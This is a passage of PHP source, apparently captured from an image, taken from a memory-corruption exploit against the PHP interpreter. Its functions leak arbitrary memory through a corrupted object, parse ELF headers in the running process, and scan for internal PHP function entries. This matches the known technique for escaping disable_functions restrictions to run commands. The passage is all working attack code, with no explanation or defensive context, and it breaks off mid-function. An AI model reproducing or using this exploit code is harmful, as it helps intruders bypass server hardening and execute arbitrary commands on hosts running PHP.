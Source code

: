 ```php
            $str[$p + $i] = chr($v & 0xff);
            $v >>= 8;
        }
    }

    function leak($addr, $p = 0, $s = 8) {
        global $abc, $helper;
        write($abc, 0x68, $addr + $p - 0x10);
        $leak = strlen($helper->a);
        if($s != 8) { $leak %= 2 << ($s * 8) - 1; }
        return $leak;
    }

    function parse_elf($base) {
        $e_type = leak($base, 0x10, 2);

        $e_phoff = leak($base, 0x20);
        $e_phentsize = leak($base, 0x36, 2);
        $e_phnum = leak($base, 0x38, 2);

        for($i = 0; $i < $e_phnum; $i++) {
            $header = $base + $e_phoff + $i * $e_phentsize;
            $p_type  = leak($header, 0, 4);
            $p_flags = leak($header, 4, 4);
            $p_vaddr = leak($header, 0x10);
            $p_memsz = leak($header, 0x28);

            if($p_type == 1 && $p_flags == 6) { # PT_LOAD, PF_Read_Write
                # handle pie
                $data_addr = $e_type == 2 ? $p_vaddr : $base + $p_vaddr;
                $data_size = $p_memsz;
            } else if($p_type == 1 && $p_flags == 5) { # PT_LOAD, PF_Read_exec
                $text_size = $p_memsz;
            }
        }

        if(!$data_addr || !$text_size || !$data_size)
            return false;

        return [$data_addr, $text_size, $data_size];
    }

    function get_basic_funcs($base, $elf) {
        list($data_addr, $text_size, $data_size) = $elf;
        for($i = 0; $i < $data_size / 8; $i++) {
            $leak = leak($data_addr, $i * 8);
            if($leak - $base > 0 && $leak - $base < $data_addr - $base) {
                $deref = leak($leak);
                # 'constant' constant check
                if($deref != 0x746e6174736e6f63)
                    continue;
            } else continue;

            $leak = leak($data_addr, ($i + 4) * 8);
            if($leak - $base > 0 && $leak - $base < $data_addr - $base) {
                $deref = leak($leak);
                # 'bin2hex' constant check
                if($deref != 0x786568326e6962)
                    continue;
            } else continue;

            return $data_addr + $i * 8;
        }
```